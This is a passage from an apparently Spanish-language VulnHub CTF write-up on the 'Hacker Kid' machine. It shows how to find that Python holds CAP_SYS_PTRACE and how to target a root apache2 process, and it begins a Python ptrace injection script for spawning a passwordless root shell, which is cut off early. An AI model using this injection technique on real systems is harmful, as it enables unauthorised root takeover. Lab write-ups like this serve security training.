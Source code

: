 Otro comando útil para obtener las capacidades de los binarios es `/sbin/getcap -r / 2>/dev/null` que nos muestra las capacidades de los binarios de `/bin` y `/sbin`.

![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-20.png)

Esto significa que el binario de Python 2.7 tiene la capacidad especial CAP_SYS_PTRACE habilitada.

Esta capacidad permite que un proceso tracee (inspeccione/modifique) a otros procesos, incluso de otros usuarios, como lo haría gdb o strace.

  -  Leer la memoria de procesos ajenos

  -  Inyectar código

  -  Atachar a procesos de root

  -  Leer datos sensibles como contraseñas, variables, o incluso binarios en ejecución

Para aprovechar esto vamos a listar los procesos del sistema que estén siendo ejecutados por el usuario `root`.

```bash
ps -eaf | grep root
```

![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-22.png)

Vamos a encontrar el proceso que ejecuta apache2.

Basandonos en el contenido del siguiente [post](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)

Crearemos un script en python que nos permita inyectar código en el proceso de root y cree uno nuevo que sirva una shell root sin contraseña.

En /tmp creamos el script:

```python
# -*- coding: utf-8 -*-
import ctypes
import sys
import struct
import os

# Constants from <sys/ptrace.h>
PTRACE_POKETEXT = 4
PTRACE_GETREGS  = 12
PTRACE_SETREGS  = 13
PTRACE_ATTACH   = 16
PTRACE_DETACH   = 17

# x86_64 register structure from <sys/user.h>
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
```
